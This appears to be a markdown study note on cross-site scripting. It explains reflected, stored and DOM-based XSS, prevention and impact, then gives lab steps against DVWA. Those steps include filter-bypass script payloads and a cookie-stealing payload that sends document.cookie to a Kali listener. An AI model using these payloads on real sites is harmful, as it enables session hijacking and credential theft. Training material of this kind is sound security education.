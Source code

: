## Cross Site Scripting (XSS): 
- `Using JS Language` `User gets affected, Not the Servers`
- Allows attackers to inject malicious scripts into web pages viewed by other users. These scripts can execute in the context of the victim's browser, leading to theft of sensitive information, session hijacking, or defacement of websites.

## Types:
1. Reflected XSS: Malicious script is reflected off a web server and executed in the victim's browser when a user visits a specially crafted link or submits a form.
- typically `embedded in URLs, form inputs`, or other user-controllable parameters and are reflected back in error messages, search results, or dynamically generated pages.
- `malicious code is temporarily injected into the server's response and reflected back to the victim's browser.`

2. Stored/Persistent XSS:
- `Malicious script is stored on the server` (e.g., in a database) and executed in the victim's browser when they access the compromised page containing that script.
- When a victim user visits the page containing the injected code, their browser executes it, allowing the attacker to perform actions like session hijacking, data theft, or defacement.

3. DOM-based XSS: Malicious script is injected into the Document Object Model (DOM) of a web page and executed by the victim's browser, often as a result of client-side JavaScript manipulating user-controlled data without proper validation.

## Example:
- An attacker injects a malicious `script into a comment field on a blog website`. When other users view the comment section, the script executes in their browsers, stealing their session cookies and sending them to the attacker.

## Prevention:
```
Input Validation: Validate and sanitize user input to prevent the injection of script tags and other malicious content.
Output Encoding: Encode user-generated content before rendering it in web pages to ensure that any HTML, JavaScript, or other potentially dangerous characters are displayed as plain text.
HTTPOnly Cookies: Set the HTTPOnly flag on cookies to prevent client-side scripts from accessing them, reducing the risk of session hijacking.
Content Security Policy (CSP): Implement CSP headers to restrict the sources from which scripts can be executed, mitigating the impact of XSS attacks by blocking unauthorized scripts.
Use XSS Filters: Employ web application firewalls or browser-based XSS filters to detect and block malicious script injections at the network or browser level.
```

## Impact:
```
Session Hijacking: Attackers can steal session cookies and impersonate users.
Data Theft: Attackers can steal sensitive information entered by users, such as login credentials or personal data.
Phishing: Attackers can create authentic-looking phishing pages to trick users into divulging sensitive information.
```


## Practical (Reflected):
1. Open DVWA > Security:Low > Inject Js code: `<script>alert('Hi')</script>` > Pop-Up: Hi > Vulnerable to XSS.
2. Open DVWA > Security:Mid > Inject Js code: `<SCRIPT>alert('Hi')</SCRIPT>` > Pop-Up: Hi > Vulnerable to XSS.
3. Open DVWA > Security:Mid > Inject Js code: `<scr<script>ipt>alert('Hi')</script>` > Pop-Up: Hi > Vulnerable to XSS.

4. Open DVWA > Security:Mid > Inject Js code: `'<SCRIPT>'document.write('<img src="http://<kali-VM-IP>:12345/' + document.cookie + ` ">`); </SCRIPT>`
Listen on the Kali VM: `python -m http.server 12345`

> The session details will show here in the Terminal.


























